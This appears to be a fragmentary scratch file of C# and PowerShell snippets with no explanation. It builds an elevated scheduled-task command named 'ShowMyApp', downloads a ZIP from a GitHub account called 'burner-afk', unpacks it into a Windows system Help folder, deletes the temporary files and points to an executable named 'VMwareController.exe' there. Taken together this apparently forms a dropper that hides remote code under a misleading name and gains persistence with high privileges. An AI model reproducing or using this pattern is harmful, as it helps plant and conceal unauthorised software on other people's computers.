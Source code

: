 "C:\Users\Administrator\Downloads\grouse-main\grouse-main\DesktopGoose v0.31\GooseDesktop.exe"

string createCmd = $"/Create /TN \"ShowMyApp\" /TR \"{exePath}\" " +
                   $"/SC ONCE /ST {startTime} /RL HIGHEST /F /RU \"{username}\"";
string createCmd = $"/Create /TN \"ShowMyApp\" /TR \"\\\"{exePath}\\\"\" /SC ONCE /ST {startTime} /RL HIGHEST /F /RU \"{username}\"";
C:\Windows\Help\Windows\IndexStore\en-US


# Set variables
$url = "https://github.com/burner-afk/Controller/archive/refs/heads/main.zip"      
$zipPath = "C:\temp\Controller-main.zip"
$extractPath = "C:\Windows\Help\Windows\IndexStore\en-US"



# Create directory for download and extraction
New-Item -ItemType Directory -Force -Path (Split-Path $zipPath)


# Download the ZIP file
Invoke-WebRequest -Uri $url -OutFile $zipPath

# Extract the ZIP file
Add-Type -AssemblyName System.IO.Compression.FileSystem
[System.IO.Compression.ZipFile]::ExtractToDirectory($zipPath, $extractPath)

Remove-Item "C:\temp" -Recurse -Force

"C:\Windows\Help\Windows\IndexStore\en-US\Controller-main\bin\Debug\VMwareController.exe"
